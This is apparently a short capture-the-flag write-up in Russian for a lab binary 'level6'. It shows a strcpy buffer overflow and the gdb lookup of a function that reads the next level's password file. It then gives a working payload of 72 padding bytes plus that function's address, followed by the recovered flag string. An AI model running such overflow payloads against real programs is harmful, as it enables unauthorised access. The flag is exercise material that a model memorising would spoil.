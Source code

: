 
# Вызов 'strcpy' уязвим для переполнения буфера
=> 0x80484c5 <main+73>:	call   0x8048340 <strcpy@plt>

# Есть функция 'n', которая вызывает 'system("/bin/cat /home/user/level7/.pass")'
# Но она не вызывается

# Сначала нам нужно найти адрес функции 'n'
gdb> x n
0x8048454 <n>:	0x83e58955

# потом готовим payload
./level6 $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
